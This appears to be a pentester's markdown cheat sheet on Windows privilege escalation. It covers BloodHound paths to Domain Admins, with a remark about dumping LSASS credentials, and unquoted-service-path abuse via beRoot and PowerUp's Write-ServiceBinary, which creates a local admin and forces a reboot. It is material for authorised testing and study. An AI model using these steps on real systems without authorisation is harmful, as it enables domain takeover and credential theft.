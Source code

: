 # Privilege Escalation

### Bloodhound
BloodHound is a tool for reviewing privilege escalation paths within Active Directory and Entra ID environments. The graphs shown are generated using data collected by SharpHound and AzureHound. 
```bash
cd Bloodhound-win32-x64/
BloodHound.exe
# login (neo4j:BloodHound) 
# use one of the options below to discover a path to privesc
```
Option 1: use a pre-built query. 
```bash
# enter the name of an entity in the search bar (top-left) 
# right-click entity and select "Mark User as Owned"
# click "Queries" > "Shortest Paths to Domain Admins from Owned Principals"
# pick a Domain Admins group
# review path to privesc
# privesc will require connecting to machines and dumping creds from LSASS
```
Option 2: specify a target node. 
```bash
# enter the name of an entity in the search bar (top-left) 
# click the "Pathfinding" icon
# enter the name of a Domain Admins group and click "Find Path"
# click "Change Layout" (right-side)
# review path to privesc 
```

## Unquoted Service Paths
### beRoot
```bash
beRoot.exe # identify privesc options
# look for "[!] Path containing spaces without quotes"
```

### PowerUp
The default exploit used by PowerUp's "Write-ServiceBinary" function creates a local administrator. Use the `-Command` to specify a different exploit. If the unquoted path of your target service is `C:\Program Files\Vuln Server\VulnServer.exe`, the string you would use with `Write-ServiceBinary` is `C:\Program Files\Vuln.exe`. 
```bash
# target Terminal 1:
Import-Module .\PowerUp.ps1
Invoke-AllChecks
# look for "[*] Checking for unquoted service paths"
# pick vulnerable service and copy/paste the string in its "AbuseFunction" field
Write-ServiceBinary -Name "Vuln Server" -Path "C:\Program Files\Vuln.exe"
# check your exploit settings and then get the target to restart (e.g., shutdown /r /t 0)
# login to the target using "john" and "Password123!"
```
